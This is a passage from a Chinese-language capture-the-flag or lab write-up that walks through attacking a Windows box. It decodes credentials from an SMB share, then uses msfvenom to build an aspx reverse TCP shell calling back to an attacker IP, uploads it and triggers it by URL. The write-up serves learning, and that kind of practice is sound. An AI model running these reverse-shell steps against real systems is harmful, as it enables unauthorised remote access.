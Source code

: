 get 一下 password.txt

[![](assets/1706771526-e10395637de22569c913c7622216af19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223332-607d44ee-beb3-1.png)

[![](assets/1706771526-6022a6f5fa6ec1b502d0a941dd3acd68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223335-62ae91be-beb3-1.png)

base 解密一下

```plain
Bob - !P@$$W0rD!123
```

```plain
Bill - Juw4nnaM4n420696969!$$$
```

ssh 远程连接一下，这里傻逼了，忘了没开 20 端口，应该不能这么打，这是 windows 的渗透。。。。

应该从刚刚的 SMB 共享入手，SMB 和 linux 下的 ftp 差不多，ftp 怎么打 SMB 其实也差不多

利用**msfvenom**生成一个弹 windows 的 shell

```plain
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.37.127 LPORT=3333 -f aspx -o shell1.aspx
```

之后将我们生成的 shell.aspx put 到 SMB 共享目录

之后我们访问一下

```plain
http://10.10.220.5:49663/nt4wrksv/shell1.aspx
```

[![](assets/1706771526-edb1b2d2b53bcac3797ccf2c33989289.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223341-660c3b54-beb3-1.png)
